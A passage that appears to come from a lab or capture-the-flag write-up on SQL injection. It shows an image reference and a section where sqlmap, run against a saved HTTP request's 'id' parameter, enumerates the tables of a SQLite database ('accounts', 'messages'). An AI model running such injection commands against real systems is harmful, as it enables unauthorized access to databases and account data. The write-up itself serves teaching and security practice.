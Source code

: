 ![sqli-hex-accounts-password](./images/sqli-hex-accounts-password.png)


### SQLi using sqlmap

The sqli exploitation can also be automated using sqlmap.

```bash
sqlmap -r sqli.req --risk 3 --level 3 -p id --dbms=SQlite --batch --tables
[15:53:47] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:53:47] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+----------+
| accounts |
| messages |
+----------+

```
